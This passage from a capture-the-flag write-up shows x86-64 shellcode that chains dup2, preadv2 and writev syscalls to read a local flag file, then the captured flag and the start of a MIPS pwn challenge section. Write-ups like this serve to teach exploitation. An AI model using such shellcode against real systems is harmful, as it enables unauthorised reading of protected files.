 ```armasm
    ; dup2
    mov rdi, 0x1
    mov rsi, 0x100000000
    mov rax, 33
    syscall

    ; iovec
    mov r12, rsp
    sub r12, 0x200
    
    push 0x100
    push r12

    ; preadv2
    mov rdi, 0x3
    mov rsi, rsp
    mov rdx, 0x1
    mov r10, 0x0
    mov r8, 0x0
    mov r9, 0x0
    mov rax, 327
    syscall

    ; writev
    mov rdi, 0x100000000
    mov rax, 20
    syscall

    nop
    nop

flagpath: db "./flag.txt", 0
```
{% endcode %}

{% hint style="success" %}
Flag: _**uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}**_
{% endhint %}

***

## Backup Power🥇

{% hint style="info" %}
got 1st blood[🩸](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&ved=2ahUKEwii--OB_ZSHAxWS1zgGHQv6CQoQFnoECBwQAQ\&url=https%3A%2F%2Femojipedia.org%2Fdrop-of-blood\&usg=AOvVaw1-FUJzLYPkLB-jg_AS6ei5\&opi=89978449) on this one :D my first MIPS pwn as well
{% endhint %}

### Description
